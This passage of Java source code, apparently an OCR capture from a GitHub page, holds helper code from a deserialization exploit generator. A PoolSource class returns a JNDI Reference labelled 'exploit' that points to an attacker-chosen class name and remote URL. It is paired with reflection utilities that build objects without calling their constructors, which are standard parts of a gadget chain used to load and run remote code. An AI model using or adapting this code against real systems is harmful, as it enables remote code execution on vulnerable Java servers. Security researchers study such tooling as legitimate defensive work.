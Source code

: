 ```java
            e.printStackTrace();
        }
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }

    private static final class PoolSource implements ConnectionPoolDataSource, Referenceable {

        private String className;
        private String url;

        public PoolSource ( String className, String url ) {
            this.className = className;
            this.url = url;
        }

        public Reference getReference () throws NamingException {
            return new Reference("exploit", this.className, this.url);
        }

        public PrintWriter getLogWriter () throws SQLException {return null;}
        public void setLogWriter ( PrintWriter out ) throws SQLException {}
        public void setLoginTimeout ( int seconds ) throws SQLException {}
        public int getLoginTimeout () throws SQLException {return 0;}
        public Logger getParentLogger () throws SQLFeatureNotSupportedException {return null;}
        public PooledConnection getPooledConnection () throws SQLException {return null;}
        public PooledConnection getPooledConnection ( String user, String password ) throws SQLException {return null;}

    }

    public static <T> T createWithoutConstructor ( Class<T> classToInstantiate )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);
    }

    public static <T> T createWithConstructor ( Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs )
            throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {
        Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);
        objCons.setAccessible(true);
        Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);
        sc.setAccessible(true);
        return (T)sc.newInstance(consArgs);
    }
}
```
